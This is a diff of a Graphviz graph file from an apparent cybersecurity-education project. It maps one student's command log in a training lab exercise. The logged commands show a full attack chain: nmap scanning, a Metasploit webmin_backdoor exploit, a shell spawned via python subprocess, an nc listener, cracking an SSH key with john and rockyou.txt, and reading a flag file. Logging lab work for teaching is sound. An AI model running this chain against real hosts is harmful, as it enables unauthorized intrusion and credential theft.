

The diagram in log_analysis/kypo-git4/kypo_output_44_all_graph.dot (edurange/edurange-flask), drawn with Graphviz before and after one commit. The commit also changed 89 other files, not shown here.

```diff
--- a/log_analysis/kypo-git4/kypo_output_44_all_graph.dot
+++ b/log_analysis/kypo-git4/kypo_output_44_all_graph.dot
@@ -1,106 +1,106 @@
 // creating graph for user: 44
 digraph {
 	node [shape=box]
-	0 [label="nmap --help A0 "]
-	1 [label="nmap -v 172.18.1.5 A0 "]
-	2 [label="msfconsole U"]
-	3 [label="search webmin U"]
-	4 [label="use exploit/unix/webapp/webmin_backdoor  U"]
-	5 [label="show options U"]
-	6 [label="set rhosts 172.18.1.5 U"]
-	7 [label="run U"]
-	8 [label="set lhost 10.1.135.83 U"]
-	9 [label="run U"]
-	10 [label="cd /root/.ssh U"]
-	11 [label="cd .ssh U"]
-	12 [label="ls U"]
-	13 [label="ls -la U"]
-	14 [label="ssh-keygen -t rsa U"]
-	15 [label="show options U"]
-	16 [label="run U"]
-	17 [label="python -c 'import subprocess; p=subprocess.call([/bin/sh U"]
+	0 [label="nmap --help A0 A1 "]
+	1 [label="nmap -v 172.18.1.5 M0 "]
+	2 [label="msfconsole M2 "]
+	3 [label="search webmin M3 "]
+	4 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
+	5 [label="show options M5 "]
+	6 [label="set rhosts 172.18.1.5 A6 "]
+	7 [label="run M8 "]
+	8 [label="set lhost 10.1.135.83 A6 "]
+	9 [label="run M8 "]
+	10 [label="cd /root/.ssh A16 "]
+	11 [label="cd .ssh A16 "]
+	12 [label="ls A10 "]
+	13 [label="ls -la A10 "]
+	14 [label="ssh-keygen -t rsa A16 "]
+	15 [label="show options M5 "]
+	16 [label="run M8 "]
+	17 [label="python -c 'import subprocess; p=subprocess.call([/bin/sh A13 "]
 	18 [label="nc -nvlp 225 U"]
 	19 [label="cd . U"]
 	20 [label="cd .. U"]
-	21 [label="ls -la U"]
-	22 [label="ls U"]
-	23 [label="ls -la U"]
-	24 [label="ls -a U"]
-	25 [label="ls -l U"]
-	26 [label="ssh eve@10.1.17.4 --help U"]
-	27 [label="ssh -i eve.key eve@10.1.17.4 U"]
+	21 [label="ls -la A10 "]
+	22 [label="ls A10 "]
+	23 [label="ls -la A10 "]
+	24 [label="ls -a M10 "]
+	25 [label="ls -l A10 "]
+	26 [label="ssh eve@10.1.17.4 --help M16 "]
+	27 [label="ssh -i eve.key eve@10.1.17.4 M16 "]
 	28 [label="chown key.eve 0644 U"]
-	29 [label="chmod key.eve 0644 U"]
-	30 [label="chmod 0644 key.eve U"]
-	31 [label="ls U"]
-	32 [label="chmod 0644 eve.key U"]
-	33 [label="ssh -i eve.key eve@10.1.17.4 U"]
-	34 [label="sudo ssh -i eve.key eve@10.1.17.4 U"]
-	35 [label="chmod 0700 eve.key U"]
-	36 [label="ssh -i eve.key eve@10.1.17.4 U"]
-	37 [label="ssh2john eve.key > eve.hash U"]
-	38 [label="locate ssh2john.py U"]
-	39 [label="python ssh2john.py eve.key > eve.hash A5 M5 "]
-	40 [label="ls U"]
-	41 [label="cat eve.hash U"]
-	42 [label="john eve.hash -wordlist=rockyou.txt U"]
-	43 [label="locate rockyou.txt U"]
-	44 [label="john eve.hash -wordlist=/usr/share/wordlists/rockyou.txt U"]
-	45 [label="ssh -i eve.key eve@10.1.17.4 U"]
-	46 [label="ls U"]
-	47 [label="ls -la U"]
+	29 [label="chmod key.eve 0644 A15 "]
+	30 [label="chmod 0644 key.eve A15 "]
+	31 [label="ls A10 "]
+	32 [label="chmod 0644 eve.key A15 "]
+	33 [label="ssh -i eve.key eve@10.1.17.4 M16 "]
+	34 [label="sudo ssh -i eve.key eve@10.1.17.4 M16 "]
+	35 [label="chmod 0700 eve.key A15 "]
+	36 [label="ssh -i eve.key eve@10.1.17.4 M16 "]
+	37 [label="ssh2john eve.key > eve.hash A14 A16 "]
+	38 [label="locate ssh2john.py A1 A9 A10 A11 A12 A14 A16 A17 "]
+	39 [label="python ssh2john.py eve.key > eve.hash M13 "]
+	40 [label="ls A10 "]
+	41 [label="cat eve.hash A1 A9 A11 A12 A17 "]
+	42 [label="john eve.hash -wordlist=rockyou.txt A14 "]
+	43 [label="locate rockyou.txt A1 A9 A10 A11 A12 A17 "]
+	44 [label="john eve.hash -wordlist=/usr/share/wordlists/rockyou.txt A14 "]
+	45 [label="ssh -i eve.key eve@10.1.17.4 M16 "]
+	46 [label="ls A10 "]
+	47 [label="ls -la A10 "]
 	48 [label="cd top-secret/ U"]
-	49 [label="ls -la U"]
-	50 [label="cat flag.txt A8 M8 "]
+	49 [label="ls -la A10 "]
+	50 [label="cat flag.txt M17 "]
 	0 -> 1 [constraint=false]
 	1 -> 2 [constraint=false]
 	2 -> 3 [constraint=false]
 	3 -> 4 [constraint=false]
 	4 -> 5 [constraint=false]
 	5 -> 6 [constraint=false]
 	6 -> 7 [constraint=false]
 	7 -> 8 [constraint=false]
 	8 -> 9 [constraint=false]
 	9 -> 10 [constraint=false]
 	10 -> 11 [constraint=false]
 	11 -> 12 [constraint=false]
 	12 -> 13 [constraint=false]
 	13 -> 14 [constraint=false]
 	14 -> 15 [constraint=false]
 	15 -> 16 [constraint=false]
 	16 -> 17 [constraint=false]
 	17 -> 18 [constraint=false]
 	18 -> 19 [constraint=false]
 	19 -> 20 [constraint=false]
 	20 -> 21 [constraint=false]
 	21 -> 22 [constraint=false]
 	22 -> 23 [constraint=false]
 	23 -> 24 [constraint=false]
 	24 -> 25 [constraint=false]
 	25 -> 26 [constraint=false]
 	26 -> 27 [constraint=false]
 	27 -> 28 [constraint=false]
 	28 -> 29 [constraint=false]
 	29 -> 30 [constraint=false]
 	30 -> 31 [constraint=false]
 	31 -> 32 [constraint=false]
 	32 -> 33 [constraint=false]
 	33 -> 34 [constraint=false]
 	34 -> 35 [constraint=false]
 	35 -> 36 [constraint=false]
 	36 -> 37 [constraint=false]
 	37 -> 38 [constraint=false]
 	38 -> 39 [constraint=false]
 	39 -> 40 [constraint=false]
 	40 -> 41 [constraint=false]
 	41 -> 42 [constraint=false]
 	42 -> 43 [constraint=false]
 	43 -> 44 [constraint=false]
 	44 -> 45 [constraint=false]
 	45 -> 46 [constraint=false]
 	46 -> 47 [constraint=false]
 	47 -> 48 [constraint=false]
 	48 -> 49 [constraint=false]
 	49 -> 50 [constraint=false]
 	rankdir=LR
 }
```
